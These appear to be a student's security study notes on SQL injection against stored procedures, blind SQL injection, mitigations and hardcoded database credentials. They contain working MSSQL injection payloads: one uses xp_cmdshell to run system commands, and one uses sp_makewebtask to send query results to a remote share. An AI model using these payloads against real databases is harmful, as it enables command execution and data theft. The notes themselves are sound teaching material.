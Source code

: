 ### Stored Procedures
- most db have stored procedures
    - similar to funcs
- typical use
    - data validation
    - access control
    - batch processing

#### MSSQL Stored Procedures
- start with `'; EXEC ... -`
- `' EXEC master..xp_cmdshell 'cmd.exe /c dir c:\ > c"\dir.txt' -`
    - writes list of files & folders into `c:\dir.txt`
- `' EXEC master..sp_makewebtask "\\10.10.1.3\share\output.html", "SELECT * FROM INFORMATION_SCHEMA.TABLES"`
    - executes metadata query & sends to remote folders
- using same technique can retrieve other impt files

### Blind SQL Injection
- advanced SQL injection technique
    - doesnt respond with retrieval of data from db
    - atker can only make inference from success/failure of SQL execution
    - failure of execution will usually show diff page/general error msg

#### Example
![](https://i.imgur.com/kSX4bdv.png)


### Mitigate SQL Injection Vuln
- validate/sanitise input from users
- use prepared statements/stored procedures 
    - __not immune to injection!!__
- limit db acecss permissions
    - dont let web app access db with db admin acc
- https://www.owasp.org/index.php/Top_10-2017_A1-Injection

Database Login
---
- hard coding of login credentials in webpages not good practice
    - `dbconn = MySQLdb.connect(db="sales", user= "sa",passwd="secret",database="sales")`
- difficult to maintain
    - change of username/password needs change code
    - diff sites/envs (testing, staging etc.) needs diff credentials
- leaking of credentials through viewing of source code


### Fixing Vuln
- store encrypted login credential in txt file
- use __hardware security module (HSM)__ for decryption
    - AKA crypto box
    - keys kept within cryptobox
- limit acc privilege
    - only accessible to db
    - disallow access to metadata
- restrict clients who can access db server
